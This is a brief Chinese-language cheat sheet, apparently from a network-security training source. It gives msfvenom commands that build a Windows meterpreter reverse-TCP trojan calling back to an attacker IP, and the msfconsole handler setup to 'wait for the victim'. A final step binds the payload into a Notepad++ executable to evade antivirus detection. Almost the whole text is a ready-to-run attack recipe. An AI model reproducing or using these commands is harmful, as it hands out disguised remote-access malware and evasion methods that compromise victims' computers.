

# 蚁景网安-网络安全



生成木马病毒：msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.26.130 lport=9999 -f exe -o demo9999.exe

生成以后记得在msfconsole里开启监听，等待受害者运行上钩

use exploit/multi/handler

set payload windows/x64/meterpreter_reverse_tcp

Set lhost 192.168.26.130

set lport 9999

run


防止杀毒软件查杀，躲避火绒的探测

最基础的免杀【对于其他杀毒软件效果不同，具体情况请自行尝试】

捆绑木马

```markdown
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.26.130 lport=9999 -f exe -x notepad+ +.exe -o notepad+ +.exe
```


